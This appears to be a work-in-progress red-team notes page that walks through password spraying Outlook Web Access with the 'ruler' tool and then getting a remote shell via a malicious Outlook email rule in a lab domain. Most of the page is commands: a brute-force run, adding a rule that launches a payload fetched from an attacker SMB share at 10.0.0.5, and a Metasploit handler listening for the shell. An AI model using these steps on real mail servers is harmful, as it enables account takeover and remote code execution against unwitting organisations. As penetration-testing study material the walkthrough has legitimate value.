 # Password Spraying Outlook Web Access: Remote Shell

{% hint style="warning" %}
Work In Progress
{% endhint %}

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-12-23-15-09-03.png)

![](../.gitbook/assets/peek-2018-12-23-15-07.gif)

![](../.gitbook/assets/screenshot-from-2018-12-23-15-08-18.png)

## Getting a Shell via Malicious Email Rule

```csharp
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```

![](../.gitbook/assets/screenshot-from-2018-12-23-17-15-36.png)

```text
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location "c:/windows/system32/calc.exe" --trigger "popashell" --name maliciousrule
```

![](../.gitbook/assets/screenshot-from-2018-12-23-17-19-17.png)

```csharp
smbserver.py tools /root/tools/
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit

```

Delete malicious email rule:

```text
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```

![](../.gitbook/assets/peek-2018-12-23-18-13.gif)

